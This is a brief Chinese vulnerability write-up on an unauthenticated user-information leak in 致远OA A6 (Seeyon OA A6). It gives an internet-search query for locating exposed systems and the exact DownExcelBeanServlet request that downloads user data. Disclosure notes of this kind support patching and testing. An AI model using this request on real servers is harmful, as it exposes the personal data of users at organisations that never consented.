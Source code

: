 # 致远OA A6 DownExcelBeanServlet 用户敏感信息泄露

## 漏洞描述

致远OA A6 存在某个未授权的接口导致任意访问者可下载OA中的用户信息

## 漏洞影响

```
致远OA A6
```

## 网络测绘

```
title="致远A8+协同管理软件.A6"
```

## 漏洞复现

访问如下URL即可跳转下载用户信息文件

```
/yyoa/DownExcelBeanServlet?contenttype=username&contentvalue=&state=1&per_id=0
```

![image-20220520151947895](images/202205201519045.png)